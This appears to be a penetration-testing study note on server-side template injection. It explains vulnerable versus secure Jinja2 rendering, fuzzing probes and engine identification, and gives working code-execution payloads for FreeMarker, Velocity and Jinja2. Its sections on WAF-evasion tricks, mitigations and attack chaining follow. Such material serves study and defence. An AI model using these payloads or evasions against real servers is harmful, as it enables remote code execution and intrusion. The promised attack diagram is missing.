

# 15 - Server-Side Template Injection (SSTI) in Enterprise Apps

## 1. Introduction to SSTI

Server-Side Template Injection (SSTI) is a critical vulnerability that occurs when a web application natively embeds user input into a server-side template before processing it. Template engines are designed to dynamically generate HTML, emails, or configuration files by combining static templates with dynamic data (the context).

In enterprise applications, template engines like FreeMarker (Java), Velocity (Java), Jinja2 (Python), and Twig (PHP) are heavily used. When developers mistakenly treat user input as part of the template itself—rather than passing it as a variable to be evaluated within the template—an attacker can inject template directives.

Because template engines operate directly on the server and often have deep access to the underlying programming language runtime, SSTI almost invariably leads to Remote Code Execution (RCE).

## 2. The Mechanics of the Vulnerability

A secure implementation passes user input as a variable.
**Secure (Python/Jinja2):**
```python
template = Template("Hello {{ user_name }}")
return template.render(user_name=request.args.get('name'))
```
If the user inputs `{{7*7}}`, the output is literally `Hello {{7*7}}`.

An insecure implementation concatenates the user input directly into the template string.
**Vulnerable (Python/Jinja2):**
```python
template_string = "Hello " + request.args.get('name')
template = Template(template_string)
return template.render()
```
If the user inputs `{{7*7}}`, the template string becomes `"Hello {{7*7}}"`. The engine evaluates the math, and the output is `Hello 49`.

## 3. Architecture of an SSTI Attack

Below is an ASCII representation of how an attacker escalates from injection to RCE:



## 4. Detection and Fuzzing Methodology

Identifying SSTI requires a systematic approach to input fuzzing. Because different template engines use different syntaxes, attackers use a polyglot approach or a decision tree.

### Common Fuzzing Payloads
- `${7*7}`
- `{{7*7}}`
- `<%= 7*7 %>`
- `#{7*7}`
- `*{7*7}`

If the application returns `49`, you have confirmed code evaluation. 
If it returns `7*7` literally, it is secure.
If it throws an error (e.g., a FreeMarker syntax error stack trace), it strongly indicates the input is being parsed as a template, even if evaluation failed.

### PortSwigger's SSTI Decision Tree
Security researchers map the evaluation behavior to identify the exact engine:
1. Try `${7*7}`. If it evaluates, try `a{*b}`. If that fails, it might be Java (FreeMarker/Velocity).
2. Try `{{7*7}}`. If it evaluates, try `{{7*'7'}}`.
   - If output is `49` -> Twig (PHP).
   - If output is `7777777` -> Jinja2 (Python).

## 5. Exploitation Deep Dive

Once the engine is identified, the goal is to break out of the template sandbox and access the underlying execution environment.

### A. Java: FreeMarker
FreeMarker is widely used in enterprise Java (e.g., Atlassian products, Liferay). It has an `api` built-in and an `Execute` class that can be instantiated.

**Payload:**
```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("id")}
```
If the `new` built-in is disabled, attackers can look for other objects in the context to manipulate the classloader or read files using `?api`.

### B. Java: Velocity
Velocity allows invoking methods on Java objects exposed to the context. The goal is to get a reference to `java.lang.Runtime`.

**Payload:**
```velocity
#set($engine="")
#set($run=$engine.getClass().forName("java.lang.Runtime"))
#set($ex=$run.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$out.read()#end
```

### C. Python: Jinja2
Jinja2 runs in a Python environment. Exploitation relies on the Method Resolution Order (MRO) to traverse from a standard object (like a string) up to `object`, and then down to dangerous modules like `subprocess.Popen` or `os.system`.

**Payload:**
```jinja2
{{ "".__class__.__mro__[1].__subclasses__()[400]('id', shell=True, stdout=-1).communicate()[0] }}
```
*Note: The index `[400]` varies depending on the Python environment and loaded modules. Attackers write scripts to iterate and find the exact index for `subprocess.Popen`.*

## 6. Advanced WAF Evasion in SSTI

Enterprise Web Application Firewalls (WAFs) frequently block obvious SSTI indicators like `getRuntime().exec()`, `java.lang.Runtime`, or `subprocess.Popen`.

- **String Concatenation / Obfuscation**: Constructing malicious strings piece by piece.
  - Jinja2: `{{ "".__class__.__mro__[1].__subclasses__()[400](['i'+'d'], shell=True, stdout=-1).communicate()[0] }}`
- **Context Variables Extraction**: Finding undocumented, deeply nested context variables that expose system commands natively without needing to traverse classes.
- **Encoding**: Passing payloads entirely in HEX or base64 and using template native decoders to decode and execute them on the fly.

## 7. Mitigation and Defense

Remediating SSTI is conceptually simple but can be difficult to implement if the application architecture relies heavily on dynamic templates.

### 1. Logic-less Templates
Use template engines that do not allow arbitrary logic or method execution by design, such as Mustache.

### 2. Strict Separation of Template and Context
Never generate template strings by concatenating user input. Templates should be static files or hardcoded strings. User input should only be passed in as variables (context) during the rendering phase.

### 3. Sandboxing
If you MUST allow users to edit templates (e.g., in a CMS where administrators customize page layouts), configure the template engine strictly.
- **FreeMarker**: Use `TemplateClassResolver.SAFER_RESOLVER` to prevent instantiating utility classes.
- **Jinja2**: Use a SandboxedEnvironment, although sandboxes in Python are notoriously difficult to secure perfectly.

### 4. Application Sandboxing
Run the web application service in a highly restricted environment (Docker container with dropped capabilities, read-only file systems, restricted network egress) to minimize the impact if an attacker achieves RCE via SSTI.

## 8. Chaining Opportunities

- **[[11 - .NET Deserialization ysoserial.net]]**: If SSTI does not yield direct RCE but allows file reading (LFI), an attacker can read configuration files containing encryption keys, leading to Deserialization attacks.
- **[[04 - SSRF Server-Side Request Forgery]]**: Template engines can often be coaxed into making HTTP requests using built-in URL handling classes, bypassing firewall restrictions.
- **[[08 - Privilege Escalation via Deserialization]]**: Gaining initial foothold via SSTI and using local exploits to escalate privileges on the server.

## 9. Related Notes

- [[12 - Attacking Node.js Prototype Pollution]]
- [[13 - GraphQL Introspection and Exploitation]]
- [[14 - Exploiting gRPC Endpoints]]
- [[21 - Advanced WAF Bypassing Techniques]]
